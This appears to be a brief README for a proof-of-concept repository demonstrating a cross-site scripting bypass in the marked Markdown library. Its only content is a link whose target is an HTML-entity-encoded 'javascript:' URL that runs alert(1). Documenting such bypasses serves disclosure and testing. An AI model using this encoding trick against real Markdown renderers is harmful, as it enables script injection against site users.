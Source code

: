 # marked-expoit
Find expoit in marked trough README.md

[click here](javascript&#58document;alert&#40;1&#41;)
